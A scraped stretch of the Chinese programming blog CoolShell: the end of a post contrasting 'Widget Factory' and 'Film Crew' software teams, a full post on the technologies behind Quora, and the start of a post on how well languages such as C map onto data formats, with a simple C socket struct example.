**当我们用报酬来表示的话，** Widget Factories 认为，有价值的东西总是从PM和BA派生出来的，所以他们常驻在管理层的上面，也有相应的报酬，而对于软件团队，只要他们正确地把需求变成可工作的代码后，软件团队就变得无所谓了。PM 和 BA 努力工作来维护他们的权位，他们通常不会让你能得到项目的原始信息。因为团队拿不到项目的原始信息，所以团队就要拼命地制造各种理由来让他们的方案变得有价值，程序员成为了只会从PM和BA那边听从命令的工人。而这种情况反而让Widget Factory 公司放大了他们的那种想法——程序员都是差不多的，就像车间里的工人一样，他们只不过在机械地干一些很复杂的但是很标准的事情。

<iframe id="aswift_6" name="aswift_6" sandbox="allow-forms allow-popups allow-popups-to-escape-sandbox allow-same-origin allow-scripts allow-top-navigation-by-user-activation" width="704" height="280" frameborder="0" marginwidth="0" marginheight="0" vspace="0" hspace="0" allowtransparency="true" scrolling="no" src="https://googleads.g.doubleclick.net/pagead/ads?client=ca-pub-3415450859608158&amp;output=html&amp;h=280&amp;adk=367379563&amp;adf=551293730&amp;pi=t.aa~a.425447425~i.27~rp.4&amp;daaos=1684125332196&amp;w=704&amp;fwrn=4&amp;fwrnh=100&amp;lmt=1684157944&amp;num_ads=1&amp;rafmt=1&amp;armr=3&amp;sem=mc&amp;pwprc=9848079135&amp;ad_type=text_image&amp;format=704x280&amp;url=https%3A%2F%2Fcoolshell.cn%2Farticles%2F4951.html&amp;fwr=0&amp;pra=3&amp;rh=176&amp;rw=703&amp;rpe=1&amp;resp_fmts=3&amp;wgl=1&amp;fa=27&amp;adsid=ChEI8LCHowYQ1PStmYmQo8OEARI5ANXa3bgWqsNA6dP_D6ki4FVoWY-Rhewae3duYjXGQW5EuVRJ_UmXOXiaCVY0xNFC7rQsd6qiqFgo&amp;uach=WyJXaW5kb3dzIiwiMTUuMC4wIiwieDg2IiwiIiwiMTEzLjAuNTY3Mi45MyIsW10sMCxudWxsLCI2NCIsW1siR29vZ2xlIENocm9tZSIsIjExMy4wLjU2NzIuOTMiXSxbIkNocm9taXVtIiwiMTEzLjAuNTY3Mi45MyJdLFsiTm90LUEuQnJhbmQiLCIyNC4wLjAuMCJdXSwwXQ..&amp;dt=1684158876016&amp;bpp=1&amp;bdt=1396&amp;idt=1&amp;shv=r20230510&amp;mjsv=m202305090101&amp;ptt=9&amp;saldr=aa&amp;abxe=1&amp;cookie=ID%3D636439885c84b7b2-22e35244cfe000aa%3AT%3D1684158359%3ART%3D1684158359%3AS%3DALNI_MaJKZKQuAMegGx6VagtAFLZRKMVVw&amp;gpic=UID%3D00000c06349594aa%3AT%3D1684158359%3ART%3D1684158359%3AS%3DALNI_MaPFfB0uijUu4CzHZxIMtKnmGEWwA&amp;prev_fmts=0x0%2C1200x280%2C1447x764%2C1005x124%2C704x280%2C704x280%2C704x280&amp;nras=8&amp;correlator=3798025356746&amp;frm=20&amp;pv=1&amp;ga_vid=1696476649.1684158276&amp;ga_sid=1684158276&amp;ga_hid=1771510821&amp;ga_fc=1&amp;u_tz=480&amp;u_his=1&amp;u_h=915&amp;u_w=1463&amp;u_ah=867&amp;u_aw=1463&amp;u_cd=24&amp;u_sd=1.75&amp;dmc=8&amp;adx=225&amp;ady=3612&amp;biw=1447&amp;bih=764&amp;scr_x=0&amp;scr_y=618&amp;eid=44773809%2C44759926%2C44759837%2C44759875%2C31074199%2C44788441%2C44792089&amp;oid=2&amp;psts=ABHeCvgRhz7vyUlmhqS7r2L3Cyx3lD5ZOvR8NJuOX-0VNaw9XLcHeUBdFSfqhiyPAEFni2UcTIlINiANrMAL_3-uDgk-bIs%2CABHeCvggLktH9ATza6OYcoE3OrEGXGgpLN1_Cn6FM9rPheWrnPDBYFWwovMb2cMommrGONMFll3rwhOG2ubg_IxfAKan4Bc-NhMlVkGYPD0LtKLC8rpKxQ%2CABHeCvjfcXBn7ak4hCuaGNTVTCCk5X9K-7w52OZcxVLxrAHXjbtunmYlYL_nnr8Yo8EqX1B8eznvF0Y33BbBHdcHQ1WcC3J3&amp;pvsid=2288446357797922&amp;tmod=1738974273&amp;uas=3&amp;nvt=1&amp;ref=https%3A%2F%2Fcoolshell.cn%2Fpage%2F25&amp;fc=1408&amp;brdim=0%2C0%2C0%2C0%2C1463%2C0%2C1463%2C867%2C1463%2C764&amp;vis=1&amp;rsz=%7C%7Cs%7C&amp;abl=NS&amp;fu=128&amp;bc=31&amp;jar=2023-05-15-13&amp;ifi=7&amp;uci=a!7&amp;btvi=5&amp;fsb=1&amp;xpc=qMiUnAPJiA&amp;p=https%3A//coolshell.cn&amp;dtd=707" data-google-container-id="a!7" data-google-query-id="CPzy1dy89_4CFbpqDwIdFpoMIw" data-load-complete="true" style="box-sizing: border-box; max-width: 100%; width: 704px; left: 0px; top: 0px; border: 0px; height: 280px;"></iframe>

与 Widget Factories 公司鲜明的对比，Film Crew 更主张的是平等的工作职能，每个成员都可以不受限制地获得主要的和原始的信息，其鼓励所有人形成自己的价值判断，并且可以自由地选择不同的方式来达到团队的构想。Leadership领导力结构基于人的能力而不是工作角色。报酬折射出这个人是怎么在这个项目中工作的，需要明白这个人为我们的软件创造了多大的价值和产生了怎么样的结果。 在这种环境里，PM的工作显得并不突出，他也许也不太可能是一个有创造力的领导者，工作角色被弱化成了一种行政管理上的支持者，以及团队外部的联系者。BA的部分工作直接被团队取代（在项目早期被Director取代）。

今天，我们一点也不奇怪，大多数的公司内的软件开发团队以及一些咨询工作运作于 Widget Factories ，其需要依赖于流程来不断地制造那些无聊的软件。在这种情况，惯例上来说，PM和BA要比程序员挣得更多，这是基本一种他们可以创造更多价值的假设。**在这种组强架构和管理里，程序员们很难证明管理是错误的。**

<iframe id="aswift_7" name="aswift_7" sandbox="allow-forms allow-popups allow-popups-to-escape-sandbox allow-same-origin allow-scripts allow-top-navigation-by-user-activation" width="704" height="280" frameborder="0" marginwidth="0" marginheight="0" vspace="0" hspace="0" allowtransparency="true" scrolling="no" src="https://googleads.g.doubleclick.net/pagead/ads?client=ca-pub-3415450859608158&amp;output=html&amp;h=280&amp;adk=367379563&amp;adf=1086309662&amp;pi=t.aa~a.425447425~i.31~rp.4&amp;daaos=1684125332196&amp;w=704&amp;fwrn=4&amp;fwrnh=100&amp;lmt=1684157944&amp;num_ads=1&amp;rafmt=1&amp;armr=3&amp;sem=mc&amp;pwprc=9848079135&amp;ad_type=text_image&amp;format=704x280&amp;url=https%3A%2F%2Fcoolshell.cn%2Farticles%2F4951.html&amp;fwr=0&amp;pra=3&amp;rh=176&amp;rw=703&amp;rpe=1&amp;resp_fmts=3&amp;wgl=1&amp;fa=27&amp;adsid=ChEI8LCHowYQ1PStmYmQo8OEARI5ANXa3bgWqsNA6dP_D6ki4FVoWY-Rhewae3duYjXGQW5EuVRJ_UmXOXiaCVY0xNFC7rQsd6qiqFgo&amp;uach=WyJXaW5kb3dzIiwiMTUuMC4wIiwieDg2IiwiIiwiMTEzLjAuNTY3Mi45MyIsW10sMCxudWxsLCI2NCIsW1siR29vZ2xlIENocm9tZSIsIjExMy4wLjU2NzIuOTMiXSxbIkNocm9taXVtIiwiMTEzLjAuNTY3Mi45MyJdLFsiTm90LUEuQnJhbmQiLCIyNC4wLjAuMCJdXSwwXQ..&amp;dt=1684158876021&amp;bpp=1&amp;bdt=1402&amp;idt=0&amp;shv=r20230510&amp;mjsv=m202305090101&amp;ptt=9&amp;saldr=aa&amp;abxe=1&amp;cookie=ID%3D636439885c84b7b2-22e35244cfe000aa%3AT%3D1684158359%3ART%3D1684158359%3AS%3DALNI_MaJKZKQuAMegGx6VagtAFLZRKMVVw&amp;gpic=UID%3D00000c06349594aa%3AT%3D1684158359%3ART%3D1684158359%3AS%3DALNI_MaPFfB0uijUu4CzHZxIMtKnmGEWwA&amp;prev_fmts=0x0%2C1200x280%2C1447x764%2C1005x124%2C704x280%2C704x280%2C704x280%2C704x280&amp;nras=9&amp;correlator=3798025356746&amp;frm=20&amp;pv=1&amp;ga_vid=1696476649.1684158276&amp;ga_sid=1684158276&amp;ga_hid=1771510821&amp;ga_fc=1&amp;u_tz=480&amp;u_his=1&amp;u_h=915&amp;u_w=1463&amp;u_ah=867&amp;u_aw=1463&amp;u_cd=24&amp;u_sd=1.75&amp;dmc=8&amp;adx=225&amp;ady=4283&amp;biw=1447&amp;bih=764&amp;scr_x=0&amp;scr_y=1339&amp;eid=44773809%2C44759926%2C44759837%2C44759875%2C31074199%2C44788441%2C44792089&amp;oid=2&amp;psts=ABHeCvgRhz7vyUlmhqS7r2L3Cyx3lD5ZOvR8NJuOX-0VNaw9XLcHeUBdFSfqhiyPAEFni2UcTIlINiANrMAL_3-uDgk-bIs%2CABHeCvggLktH9ATza6OYcoE3OrEGXGgpLN1_Cn6FM9rPheWrnPDBYFWwovMb2cMommrGONMFll3rwhOG2ubg_IxfAKan4Bc-NhMlVkGYPD0LtKLC8rpKxQ%2CABHeCvjfcXBn7ak4hCuaGNTVTCCk5X9K-7w52OZcxVLxrAHXjbtunmYlYL_nnr8Yo8EqX1B8eznvF0Y33BbBHdcHQ1WcC3J3%2CABHeCvgbHKVmVuRBFg4AWHwC8n1XkmUG_c7K9NzqhNa17Q9je5MXqVdxKuWOPNJtv_RkSeBbHOnuuGj0x19a0PiyZX9FOgX9%2CABHeCvizwxclBwS3qh2BhNNeKxUhBPlzqLDiKyVvjo7l_dUpmydDIEVZF2qVe6ArJYUajf_0EMloaLrPHtn8pBRWRl_k9lz_&amp;pvsid=2288446357797922&amp;tmod=1738974273&amp;uas=3&amp;nvt=1&amp;ref=https%3A%2F%2Fcoolshell.cn%2Fpage%2F25&amp;fc=1408&amp;brdim=0%2C0%2C0%2C0%2C1463%2C0%2C1463%2C867%2C1463%2C764&amp;vis=1&amp;rsz=%7C%7Cs%7C&amp;abl=NS&amp;fu=128&amp;bc=31&amp;jar=2023-05-15-13&amp;ifi=8&amp;uci=a!8&amp;btvi=6&amp;fsb=1&amp;xpc=YVH6vdAVZ1&amp;p=https%3A//coolshell.cn&amp;dtd=1084" data-google-container-id="a!8" data-google-query-id="COfC7Ny89_4CFcpVDwId4HYNmQ" data-load-complete="true" style="box-sizing: border-box; max-width: 100%; width: 704px; left: 0px; top: 0px; border: 0px; height: 280px;"></iframe>

**成功的软件公司都会趋于采用 Film Crew 的方式，任何其它的东西都会妨碍他们吸引牛人的能力，因为只有吸引了牛人，你才能创造出伟大的软件**。 在这种公司里，一个好的程序员的收入会高过BA和PM很多。

———————————————————正文结束————————————————————

读完这个贴子，我发现这完全就是在说我上一家公司和现在公司。我上一家公司的经理们最喜欢谈论的就是resource、 process，而他们的Project Manager或Team Manager或Dev Manager几乎不会为软件团队分担真正的软件开发的压力，还不如Widget Factory。哎！第一次看到这么被人系统地表达出来，心中的一些困惑都得到了解答。

你的公司属于哪一种呢？

***————更新 – 2011-7-6 晚————***

有人在我的新浪微博（[@左耳朵耗子](http://weibo.com/haoel)）里说，Widget Factory就是Waterfall，Film Crews就是Agile，在下面的留言里也说Film Crews很像SCRUM。我在这里驳斥一下这种说法：

1. 我上一家公司也用Agile ，但本质上还是Widget Factory，甚至还不像。
2. 著名的Thoughtworks中国公司，Agile的倡导者，其实是外包公司，他们的开发团队中也有PM和BA。

# QUORA使用到的技术

#####  [2011年07月04日 ](https://coolshell.cn/articles/4939.html) [陈皓](https://coolshell.cn/articles/author/haoel) 评论 [48 条评论](https://coolshell.cn/articles/4939.html#comments) 32,448 人阅读

以前向大家介绍过[Stack Exchange的系统架构](https://coolshell.cn/articles/3721.html)和[Facebook的系统架构](https://coolshell.cn/articles/4549.html)，今天和大家说说Quora的。本文主要参考了[Phil Whelan](http://www.philwhln.com/author/admin/)的这篇文章《[Quora’s Technology Examined](http://www.philwhln.com/quoras-technology-examined)》。关于Quora是个什么网站我就不多说了，国内对他的C2C网站叫“知乎”。呵呵。我们还是来看看Quora的技术吧。

目录


[Search-Box](https://coolshell.cn/articles/4939.html#Search-Box)[实时查询](https://coolshell.cn/articles/4939.html#实时查询)[Webnode2 和 LiveNode](https://coolshell.cn/articles/4939.html#Webnode2_和_LiveNode)[Amazon Web Service](https://coolshell.cn/articles/4939.html#Amazon_Web_Service)[HAProxy Load-Balancing](https://coolshell.cn/articles/4939.html#HAProxy_Load-Balancing)[Python](https://coolshell.cn/articles/4939.html#Python)[Thrift](https://coolshell.cn/articles/4939.html#Thrift)[Tornado](https://coolshell.cn/articles/4939.html#Tornado)[Long Polling (Comet)](https://coolshell.cn/articles/4939.html#Long_Polling_Comet)[MySQL](https://coolshell.cn/articles/4939.html#MySQL)[Memcached](https://coolshell.cn/articles/4939.html#Memcached)[Git](https://coolshell.cn/articles/4939.html#Git)[JavaScript Placement](https://coolshell.cn/articles/4939.html#JavaScript_Placement)[Charlie Cheever 遵从 “14 Rules for Faster-Loading Web Sites”](https://coolshell.cn/articles/4939.html#Charlie_Cheever_遵从_“14_Rules_for_Faster-Loading_Web_Sites”)

#### Search-Box

Quora只能搜索问题，主题标签，用户名，和主题标题。没有全文搜索，所以，你无法搜索问题和答案的内容。而搜索中使用前缀搜索方式，比如你输入mi，则Microsoft会马上出来。其搜索还会有一些非常简单的模糊匹配的算法。另外，如果有重复的问题，其中一个问题会自动跳转到另一个问题，但是在搜索中还是会出现。搜索中没有拼写检查。

一开始，他们使用的是一个开源的搜索服务器，叫[Sphinx](http://sphinxsearch.com/)。其支持上述的那些功能。现在他们不用这个技术了，因为[受到了一些限制](https://www.quora.com/What-is-the-best-open-source-solution-for-implementing-fast-auto-complete)。他们做了一个比较新的解决方案，这个算法由Python实现。

**参看**：[What libraries does Quora use for search?](https://www.quora.com/What-libraries-does-Quora-use-for-search)

#### 实时查询

Quora的查询是非常高速的，其查询请求是通过AJAX的GET请求发送的，结果返回用的是JSON数据格式，但他们解析JSON是在服务器端，而不是通过浏览器的javascript。这么做的原因可能是他们想高亮搜索关键词，似乎使用Client端的Javascript非常不好做。

Quora的即时搜索好像比较暴力，如果你输入Microsoft（一共9个字符），你会看到其会像后端发送9次查询——每按一个键一次，无论你敲这个单词的速底有多快，每输入一个字符都会发一个请求给后台。对于这样的看上去没有效率的对后台的请求，后台的服务器端会来控制相关的前台请求，所以，就算是前台这样做，也不会增加服务器端的负载，因为后台会做相关的处理。

Quora的搜索使用HTTP长连接，当你开始敲查询的时候，连接就建立了，这个连接会持续在那里，你下次搜索的时候会继续使用这个连接，除非你60秒没有动作了。

**参看**：[Is Quora going to implement full-text search?](https://www.quora.com/Quora-product/Is-Quora-going-to-implement-full-text-search)


#### Webnode2 和 LiveNode

Webnode2 和 LiveNode 是 Quora 内部的系统，其用来管理内容。Webnode2  生成 HTML, CSS 和 JavaScript 并且和 LiveNode 紧紧地耦合在一起，Webnode2主要是用来管理内容在网页上显示的，LiveNode主要是用来做动态网页内容更新的。Charlie Cheever 说，如果他可以从新开始，他 [第一件事要做的就是重写整个LiveNode](https://www.quora.com/What-limitations-has-Quora-encountered-due-to-LiveNode-WebNode#answers).

Quora的工程师看上去对他们搞的这些东西非常的满意，并且 [他们也在努力地找到这些东西的弱点](https://www.quora.com/What-limitations-has-Quora-encountered-due-to-LiveNode-WebNode#answers)。有一个有意思的关于LiveNode的问题是，如果A和B同时正在看相当的一个问题，那么用户A的一些交互动作会影响B的页面。例如，如果A顶了一下某个答案，那么这个答案可能会往上移动。这样的一个显示变化会通过AJAX更新B的浏览器。如果B此时展开了评论，可能会受到影响。

[LiveNode 由这些东西写成：](https://www.quora.com/What-is-LiveNode-written-in)Python, C++, and JavaScript. [jQuery](http://jquery.com/) ，[Cython](http://cython.org/)也用到了。

因为Quora [想要对他们的LiveNode开源](https://www.quora.com/Is-Quora-planning-on-open-sourcing-LiveNode) 并准备把他们的代码分开，做这个事可能需要太多的工作和时间。

Charlie Cheever 指出 WebNode2 和 [有一个叫做 “free and easy website builder” 的 Webnode 的 webnode.com](https://www.quora.com/Quora-Infrastructure/What-is-webnode2) 没有任何的关系。

**参考**：[](https://www.quora.com/Quora-product/Is-Quora-going-to-implement-full-text-search) [Tech Talk – Webnode2 and LiveNode](https://www.quora.com/Shreyes-Seshasai/Tech-Talk-Webnode2-and-LiveNode)

#### Amazon Web Service

Quora全部host在AWS的EC2和S3上，这对于这些刚刚起步的快速发展的公司非常关键，因为你可以省去了很多硬件和维护的成本。（建一个数据中心并不是所有公司都能干的事）。Quora的操作系统使用Ubuntu Linux，这是非常容易部署和管理。

其静态页使用了Amazon的CDN的 [Cloudfront](http://aws.amazon.com/cloudfront/)服务分发，CloudFront用于所有的静态图片, CSS 和JavaScript。[图片先传到 EC2 服务器](https://www.quora.com/How-is-Quora-doing-image-uploads-to-Amazon-S3)，使用 [Pyhon S3 API](http://aws.amazon.com/code/134) 处理后后传到 S3。

#### HAProxy Load-Balancing

[HAProxy ](http://haproxy.1wt.eu/)作为前端负载均衡服务器，反向代理服务器是 Nginx，Nginx 后面则是 Pylons ([Pylons + Paste](http://spacepants.org/blog/pylons-paste-stack)) , 承担动态 Web 请求。

[Pylons](http://pylonshq.com/)，是一个轻量级的Web框架，通常都是在Nginx后面使用。选用Pylons就像你在春节先饺子当主食一样。他们把Pylons中的template和ORM取走而使用自己的技术（由Python写成），这个地方就是 [LiveNode 和 WebNode2的地方](https://www.quora.com/What-languages-and-frameworks-were-used-to-code-Quora)。

#### Python

从facebook出来的Charlie 和 Adam选用了Python而不是PHP。正如Adam指出的——“[Facebook is stuck on that for legacy reasons, not because it is the best choice right now](https://www.quora.com/Why-did-Quora-choose-Python-for-its-development)”（Facebook使用PHP并不是因为其好，而是因为历史原因的问题），当然他们也不会使用C#，因为那样一来就会引入一堆微软的东西。当然，也不会是Java，因为Python要比Java更容易写出代码，Scala太年轻了，还需要考验。Ruby看上来很像Python，但是他们对Ruby没有过多的经验。最终还是Python胜出。当然，他们知道Python的弱点是性能和速度，所以，他们在需要速度和性能的地方使用了C/C++。 他们使用Python的版本是2.6。

使用Python的另一个原因是Python的数据结构和JSON可以很好的映射起来。代码易读性很高。而且有很多的库，调试器和重载器。Quora的B/S结构几乎完全通过JSON进行数据交互。

他们[没有使用IDE](https://www.quora.com/Adam-DAngelo/What-version-of-Python-are-you-programming-in-and-what-IDE-do-you-use)，他们使用得最多的是Emacs，一看就知道这是一个个人的选择，随着他们开发团队的扩大，这个事会得到改变的。

另外，他们提到了[PyPy](http://codespeak.net/pypy/dist/pypy/doc/)，一个让 Python更快更灵活的项目。

#### Thrift

[Thrift](http://incubator.apache.org/thrift/) 用于后端服务器间的通讯。Thrift  服务由 C++开发。[Facebook同样使用了这个技术](https://coolshell.cn/articles/4549.html)。

**参考**：[Why would you write a Thrift service in C++?](https://www.quora.com/Why-would-you-write-a-Thrift-service-in-C)

#### Tornado

[Tornado](http://www.tornadoweb.org/) web 框架用于实时更新，其运行在Comet 服务器上，其用来处理大量的需要长时间poll和push更新的网络连接。

#### Long Polling (Comet)

Quora的网页并不是简单的显示，每一个页面都需要更新，或是创建问题，答案和评论。所以，他们使用了Long Polling而不是传统的Polling，传统的Polling需要浏览器一端不停地重复地向服务器询问——“有更新吗？”，服务器说没有，于是过一会浏览大再问，现在呢？服务器说，还是没有，浏览器过一会又问，现在呢？服务器说，还没好。这样一来，就好像让我们的客户端放到了驾驶室里，这显然是有问题的，因为只有服务器知道什么时候会有更新。而且浏览器这么干，很快会让服务器的负载加上去。

Long polling 也就是我们熟知的 [Comet](https://en.wikipedia.org/wiki/Comet_(programming))，其让服务器来控制这些事，让客服端等在那里听服务器的响应。在client和 server的会话对于两者是是相同的，而不是client需要等着然后向服务器查询。服务器端可以把一个连接打开很长时间（比如：60秒），在这段时间里，服务器会查看是否有相应的东西需要更新，如果有的话，就发给浏览器。如果没有的话，就等下一次的client询问。可见，这种服务器等一会再响应的方法可以让浏览器少发几次查询。

对于long-polling 的最好的地方是，可以降低浏览器和客户端间来来回回的次数。让服务器端来控制时间，所以，内容更新可能会只是几个毫秒，或是几十秒。 服务器端也可以积攒一堆更新后，一次发给浏览器。这样做会更有效率。

但是，这个方法的黑暗面是——这会让服务器端出现大量的TCP链接，想一想，Quora也是百万级用户的应用了，只需要10%的在线用户，你就需要一个可以处理10万并发量的架构。注意，如果一个用户在其浏览器里打开了多个Quora网页的话，那么，这个链接器会是非常致命的。

当然，好的消息是已经有一些技术专门为Long Polling设计，这些技术可以让你在那些等待的连接中只会消耗非常非常少的内存（因为那些等待连接并不需要所有的资源）。例如：Nginx 是一个单线程的事件驱动的小型服务器，每一个链接只花非常小的内存。每一个Nginx的进程只会在一个时候处理一个连接。这意味着其很容易扩展成一个可以处理成千上的并发量的服务架构。

**参考**：[How do you push messages back to a web-browser client through AJAX? Is there any way to do this without having the client constantly polling the server for updates?](https://www.quora.com/How-do-you-push-messages-back-to-a-web-browser-client-through-AJAX-Is-there-any-way-to-do-this-without-having-the-client-constantly-polling-the-server-for-updates)

#### MySQL

就像Adam D’Angelo 的老东家facebook一样，，Quora重度使用MySQL。对于，把数据库里的数据分区是最需要做的事。他们的行事原则是，尽可能的把数据放在一台机器上，使用hash主键把大规模的数据存放到多个数据库中。坚决不用表连接。Adam参考了FriendFeed的一篇文章[How FriendFeed uses MySQL to store schema-less data](https://bret.appspot.com/entry/how-friendfeed-uses-mysql)，[并说](https://www.quora.com/NoSQL/In-what-parts-of-a-social-site-with-concert-listings-should-one-use-a-NoSQL-DB-versus-a-SQL-DB)你不应该在你的社区还没有100万用户的时候使用NoSQL 数据库。

并不只是Quora和FriendFeed使用MySQL，Google，Twitter，Facebook都在使用MySQL.

参考：[How does one evaluate if a database is efficient enough to not crash as it’s put under increasing load?](https://www.quora.com/How-does-one-evaluate-if-a-database-is-efficient-enough-to-not-crash-as-its-put-under-increasing-load)

#### Memcached

[Memcached](http://memcached.org/) 用于 MySQL的前端缓存。

#### Git

[Git](http://git-scm.com/) [是他们的源码版本控制工具](https://www.quora.com/What-languages-and-frameworks-were-used-to-code-Quora).

#### JavaScript Placement

如果你看一下Quora的网页源码，你会看到其JavaScript总是在页面的最后。 Charlie Cheever[建议](https://www.quora.com/Why-is-the-Quora-website-so-fast) 这会让你的页面显得载入得很快，因为其先显示内容，然后在载入Javascript。

#### Charlie Cheever 遵从 “14 Rules for Faster-Loading Web Sites”

Steve Souders,  High Performance Web Sites 和 Even Faster Web Sites的作者，其列了一些 [rules让你网页更快的原则](http://stevesouders.com/hpws/rules.php)。 Charlie Cheever 的 Quora 创始人提到这些过，这应该也是Quora的速度的原因。

> “One resource we used as a guide is Steve Souders’ list of rules for high performance websites:http://stevesouders.com/hpws/rules.php”
> [– Charlie Cheever, Quora](https://www.quora.com/Why-is-the-Quora-website-so-fast)

Steve Souders的14条规则是——[](https://www.amazon.com/gp/product/0596529309?ie=UTF8&tag=getafil-20&linkCode=as2&camp=1789&creative=9325&creativeASIN=0596529309)[
](https://www.amazon.com/gp/product/0596522304?ie=UTF8&tag=getafil-20&linkCode=as2&camp=1789&creative=9325&creativeASIN=0596522304)


- Make Fewer HTTP Requests
- Use a Content Delivery Network
- Add an Expires Header
- Gzip Components
- Put Stylesheets at the Top
- Put Scripts at the Bottom
- [](https://www.amazon.com/gp/product/0596522304?ie=UTF8&tag=getafil-20&linkCode=as2&camp=1789&creative=9325&creativeASIN=0596522304)Avoid CSS Expressions
- Make JavaScript and CSS External
- Reduce DNS Lookups
- Minify JavaScript
- Avoid Redirects
- Remove Duplicate Scripts
- Configure ETags
- Make AJAX Cacheable

（全文完）

# 语言的数据亲和力

#####  [2011年06月29日 ](https://coolshell.cn/articles/4905.html) [Todd](https://coolshell.cn/articles/author/todd) 评论 [31 条评论](https://coolshell.cn/articles/4905.html#comments) 20,700 人阅读

**[ 感谢 [Todd 同学](http://www.cnblogs.com/weidagang2046/)投递本文 ]**

目前，程序设计语言似乎进入了一个蓬勃发展的时期，Javascript、Perl、Python、Ruby、Groovy等一批较新的语言正越来越多地被熟悉和使用，而C++、C#、Java等主流语言也在不断地融入函数式和动态性特征。程序员的百宝箱中可供选择的宝贝是越来多了，而社区中关于语言间的比较和争论也更为热烈，我们常常见到关于“面向过程和面向对象的比较”、“动态语言和静态语言的比较”、“命令式和函数式范式的比较”等比较。我注意到这类讨论的关注点多集中于设计相关话题，如“动态语言的Duck typing多态和静态语言的继承多态的比较”，“Prototype based和Class based的比较”等。但我认为还有一个十分重要的方面值得关注，这就是数据处理。

数据处理之所以重要是因为不论是本地信息存储还是系统间信息交换都需要建立在一定的数据格式基础上。另外，不管语言属于那种范式，设计上采用什么模式，在微观层次上程序很大一部分工作都是在做数据处理。所以，从数据处理角度比较和理解语言间的差异有重要的现实意义。虽然数据通常是平台和语言无关的，但不同的语言在处理某种格式的数据时会表现出不同的难度，甚至某些数据格式只能采用特定的语言才能实现，这就是数据亲和力的不同。

语言的数据亲和力(Data Affinity)指的是语言的数据模型与某种数据格式之间的匹配程度。语言对某种数据格式亲和力越强，则操作某类数据越容易。

 

目录


[二进制字节块格式](https://coolshell.cn/articles/4905.html#二进制字节块格式)[文本格式](https://coolshell.cn/articles/4905.html#文本格式)[结构化文本格式](https://coolshell.cn/articles/4905.html#结构化文本格式)[总结](https://coolshell.cn/articles/4905.html#总结)

#### **二进制字节块格式**

 

 

在偏底层的操作系统、嵌入式和通信系统中，二进制的字节块是最常见的一种数据格式。二进制数据布局紧凑和接近机器的特点使得它常常作为系统间通信或系统文件的数据格式，但一般高级语言都不方便直接和0101打交道，而是基于记录、结构体和类等结构化表示操作数据，这就存在着在底层的二进制字节块和高层的结构化数据直接的转换问题。


C语言作为最主要的系统语言具有很高的字节块数据亲和力。这不仅因为C语言具有指针可以直接访问内存以外，还因为C的结构体(struct)可以和字节块建立起直接的映射关系。例如，在基于Socket连接的分布式系统中服务器端和客户端通过二进制的字节数据进行通信，通信双方只要事先定义共用的结构体，发送方先创建相应的结构体变量并填充字段，然后把变量对应的内存块copy到Socket，接收方从Socket读取字节块，然后把字节块强制类型转换为相应的结构体指针即可读取个字段信息。整个过程中通信的双方都没有复杂的信息编码和解码的过程。示例代码如下：

**struct** t_data {

​    **int** version;

​    **char** type[10];

​    **float** value;

};

//发送方

**struct** t_data data;

data.version = 1;

strcpy(data.type,  “degree”);

data.value = 189.0;

send(socket,  &data,  sizeof(data));

//接收方

**struct** t_data data;

read(socket,  &data,  sizeof(data));

printf(“%d, %s, %f”, data.version,  data.type, data.value);

<iframe id="aswift_5" name="aswift_5" sandbox="allow-forms allow-popups allow-popups-to-escape-sandbox allow-same-origin allow-scripts allow-top-navigation-by-user-activation" width="704" height="280" frameborder="0" marginwidth="0" marginheight="0" vspace="0" hspace="0" allowtransparency="true" scrolling="no" src="https://googleads.g.doubleclick.net/pagead/ads?client=ca-pub-3415450859608158&amp;output=html&amp;h=280&amp;adk=1885312169&amp;adf=3882423702&amp;pi=t.aa~a.425447425~i.25~rp.4&amp;daaos=1684125332196&amp;w=704&amp;fwrn=4&amp;fwrnh=100&amp;lmt=1684157978&amp;num_ads=1&amp;rafmt=1&amp;armr=3&amp;sem=mc&amp;pwprc=9848079135&amp;ad_type=text_image&amp;format=704x280&amp;url=https%3A%2F%2Fcoolshell.cn%2Farticles%2F4905.html&amp;fwr=0&amp;pra=3&amp;rh=176&amp;rw=703&amp;rpe=1&amp;resp_fmts=3&amp;wgl=1&amp;fa=27&amp;adsid=ChEI8LCHowYQ1PStmYmQo8OEARI5ANXa3bhrs1kDUK2fzcaThDkd9L1RAKdedHQVnsb-J-UE66LfwjPn2L3IW9nGwGQG_mR3-E26lk9E&amp;uach=WyJXaW5kb3dzIiwiMTUuMC4wIiwieDg2IiwiIiwiMTEzLjAuNTY3Mi45MyIsW10sMCxudWxsLCI2NCIsW1siR29vZ2xlIENocm9tZSIsIjExMy4wLjU2NzIuOTMiXSxbIkNocm9taXVtIiwiMTEzLjAuNTY3Mi45MyJdLFsiTm90LUEuQnJhbmQiLCIyNC4wLjAuMCJdXSwwXQ..&amp;dt=1684158900727&amp;bpp=1&amp;bdt=2259&amp;idt=1&amp;shv=r20230510&amp;mjsv=m202305090101&amp;ptt=9&amp;saldr=aa&amp;abxe=1&amp;cookie=ID%3D636439885c84b7b2-22e35244cfe000aa%3AT%3D1684158359%3ART%3D1684158359%3AS%3DALNI_MaJKZKQuAMegGx6VagtAFLZRKMVVw&amp;gpic=UID%3D00000c06349594aa%3AT%3D1684158359%3ART%3D1684158359%3AS%3DALNI_MaPFfB0uijUu4CzHZxIMtKnmGEWwA&amp;prev_fmts=0x0%2C1200x280%2C704x280&amp;nras=4&amp;correlator=913020618243&amp;frm=20&amp;pv=1&amp;ga_vid=1696476649.1684158276&amp;ga_sid=1684158276&amp;ga_hid=447160074&amp;ga_fc=1&amp;u_tz=480&amp;u_his=1&amp;u_h=915&amp;u_w=1463&amp;u_ah=867&amp;u_aw=1463&amp;u_cd=24&amp;u_sd=1.75&amp;dmc=8&amp;adx=225&amp;ady=2579&amp;biw=1447&amp;bih=764&amp;scr_x=0&amp;scr_y=1500&amp;eid=44773809%2C44759926%2C44759837%2C44759875%2C31071755%2C31074602%2C42531705%2C44788442%2C44792088&amp;oid=2&amp;psts=ABHeCvi3zsTafiFyatjsEqtzAfH_0JMg_r4NoSIjaVovh-XW3jTCnpFQbTu1B0Knh514bIJZZl3GPEy2DeqpOfhVCpvYv9I&amp;pvsid=1269313492760522&amp;tmod=1738974273&amp;uas=3&amp;nvt=1&amp;ref=https%3A%2F%2Fcoolshell.cn%2Fpage%2F25&amp;fc=1408&amp;brdim=0%2C0%2C0%2C0%2C1463%2C0%2C1463%2C867%2C1463%2C764&amp;vis=1&amp;rsz=%7C%7Cs%7C&amp;abl=NS&amp;fu=128&amp;bc=31&amp;jar=2023-05-15-13&amp;ifi=6&amp;uci=a!6&amp;btvi=2&amp;fsb=1&amp;xpc=RfwZTY5V5